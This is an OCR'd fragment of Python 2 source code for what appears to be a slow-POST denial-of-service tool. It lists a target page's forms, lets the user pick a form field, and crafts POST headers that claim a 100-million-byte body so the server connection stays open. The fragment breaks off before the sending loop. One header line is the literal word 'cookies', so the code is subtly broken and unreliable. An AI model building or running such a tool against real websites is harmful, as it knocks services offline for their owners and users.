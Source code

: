     for form in soup.findAll('form'):
        
        forms.append(form_to_dict(form))

    return forms

def print_forms(forms):

    for index,form in enumerate(forms):
        print 'Form #%d --> id: %s --> class: %s --> action: %s' %\
                (index, form['id'], form['class'], form['action'])

def print_inputs(inputs):

    for index, input_field in enumerate(inputs):
        print 'Input #%d: %s' %\
            (index, input_field['name'])

def choose_form(response):
    forms = get_forms(response)

    return make_choice(print_forms,
                'Please select a form from the list above.',
                forms,
                'form')

def choose_input(form):

    return make_choice(print_inputs,
                    'Please select a form field from the list above.',
                    form['inputs'],
                    'input')

def make_choice(menu_function, prompt, choices, field):

    while True:
        try:
            menu_function(choices)
            index = int(raw_input('Enter %s number: ' % field))
            return choices[index]
        except IndexError:
            print 'That is not a valid choice.'
        except ValueError:
            print 'That is not a valid choice.'
        print

def craft_headers(path, host, user_agent, param, cookies):

    return '\n'.join([

        'POST %s HTTP/1.1' % path,
        'Host: %s' % host,
        'Connection: keep-alive',
        'Content-Length: 100000000',
        'User-Agent: %s' % user_agent,
        'cookies',
        '%s=' % param, 
    ])

def host_from_url(url):

    p = '(?:http.*://)?(?P<host>[^:/ ]+).?(?P<port>[0-9]*).*'
    m = re.search(p,url)
    return m.group('host')

def port_from_url(url):

    p = '(?:http.*://)?(?P<host>[^:/ ]+).?(?P<port>[0-9]*).*'
    m = re.search(p,url)
    port = m.group('port')
    if port == '':
        return 80